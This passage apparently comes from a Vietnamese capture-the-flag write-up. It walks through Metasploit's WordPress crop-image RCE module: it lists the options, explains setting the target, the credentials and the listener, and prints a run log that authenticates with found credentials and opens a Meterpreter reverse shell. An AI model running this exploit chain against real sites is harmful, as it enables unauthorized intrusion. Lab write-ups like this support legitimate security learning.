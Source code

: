 Thử với exploit đầu tiên

```python
msf6 exploit(multi/http/wp_crop_rce) > show options

Module options (exploit/multi/http/wp_crop_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    yes       The WordPress password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the wordpress application
   USERNAME                    yes       The WordPress username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.0.2.15        yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   WordPress
```

Thay đổi các giá trị trùng với target:

- `PASSWORD` và `USERNAME`: user-pass vừa tìm được
- `RHOSTS`: IP máy mục tiêu
- `RPORT`: port của máy mục tiêu
- `TARGETURI`: path dẫn đến wordpress, như trong bài này thì blog nó đã là wordpress luôn rồi. Tuy nhiên trong vài trường hợp thì nó sẽ có path là */wordpress/*
- `LHOST` và `LPORT`: IP máy của tôi và port mà tôi muốn tạo listener.

Và sau khi đã thiết lập đầy đủ thì `run` thôi

```python
msf6 exploit(multi/http/wp_crop_rce) > run                                                                                                                                                   

[*] Started reverse TCP handler on 10.18.3.74:4444                                                                                                                                           
[*] Authenticating with WordPress using kwheel:cutiepie1...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload
[+] Image uploaded
[*] Including into theme
[*] Sending stage (39927 bytes) to 10.10.24.181
[*] Attempting to clean up files...
[*] Meterpreter session 2 opened (10.18.3.74:4444 -> 10.10.24.181:54304) at 2022-08-15 23:17:55 -0400

meterpreter > shell
Process 1476 created.
```